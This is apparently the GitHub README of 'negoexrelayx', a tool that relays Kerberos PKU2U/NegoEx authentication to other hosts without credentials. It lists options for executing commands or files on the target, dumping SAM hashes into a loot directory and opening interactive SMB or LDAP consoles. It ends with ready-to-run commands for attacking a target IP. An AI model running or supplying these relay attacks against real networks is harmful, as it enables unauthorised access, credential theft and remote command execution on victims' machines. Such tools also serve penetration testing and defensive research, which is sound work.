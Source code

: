 # Negoexrelayx - Negoex relaying tool

Toolkit for abusing Kerberos PKU2U and NegoEx.
Requires [impacket](https://github.com/SecureAuthCorp/impacket)
It is recommended to install impacket from git directly to have the latest version available.

## negoexrelayx.py
This tool allows you to relay NegoEx (with PKU2U) authentication to other copmuter and authenticate without knowing the credentials, similar to Ntlmrelayx.
```
NegoEx relay tool. By @rubin_mor

Main options:
  -h, --help            show this help message and exit
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -t TARGET, --target TARGET
                        Target to relay the credentials to, can be an IP,
                        hostname or URL like domain\username@host:port
                        (domain\username and port are optional, and don't
                        forget to escape the '\'). If unspecified, it will
                        relay back to the client')
  -tf TARGETSFILE       File that contains targets by hostname or full URL,
                        one per line
  -w                    Watch the target file for changes and update target
                        list automatically (only valid with -tf)
  -i, --interactive     Launch an smbclient or LDAP console insteadof
                        executing a command after a successful relay. This
                        console will listen locally on a tcp port and can be
                        reached with for example netcat.
  -ip INTERFACE_IP, --interface-ip INTERFACE_IP
                        IP address of interface to bind SMB and HTTP servers
  --smb-port SMB_PORT   Port to listen on smb server
  --no-multirelay       If set, disable multi-host relay (SMB and HTTP
                        servers)
  -ra, --random         Randomize target selection
  -r SMBSERVER          Redirect HTTP requests to a file:// path on SMBSERVER
  -l LOOTDIR, --lootdir LOOTDIR
                        Loot directory in which gathered loot such as SAM
                        dumps will be stored (default: current directory).
  -of OUTPUT_FILE, --output-file OUTPUT_FILE
                        base output filename for encrypted hashes. Suffixes
                        will be added for ntlm and ntlmv2
  -codec CODEC          Sets encoding used (codec) from the target's output
                        (default "utf-8"). If errors are detected, run
                        chcp.com at the target, map the result with https://do
                        cs.python.org/3/library/codecs.html#standard-encodings
                        and then execute ntlmrelayx.py again with -codec and
                        the corresponding codec
  -smb2support          SMB2 Support
  -6, --ipv6            Listen on both IPv6 and IPv4
  --serve-image SERVE_IMAGE
                        local path of the image that will we returned to
                        clients
  -c COMMAND            Command to execute on target system (for SMB and RPC).
                        If not specified for SMB, hashes will be dumped
                        (secretsdump.py must be in the same directory). For
                        RPC no output will be provided.
  -clientname CLIENTNAME
                        A new name for the client name

SMB client options:
  -e FILE               File to execute on the target system. If not
                        specified, hashes will be dumped (secretsdump.py must
                        be in the same directory)
  --enum-local-admins   If relayed user is not admin, attempt SAMR lookup to
                        see who is (only works pre Win 10 Anniversary)
```
# Usage
To attack specific traget you can start the server with the command (note that SMB2 is usually must)
```
negoexrelayx.py -t IP -smb2support
```

To attack specific traget and change the client name in PKU2U
```
negoexrelayx.py -t IP -clientname NEW_NAME -smb2support
```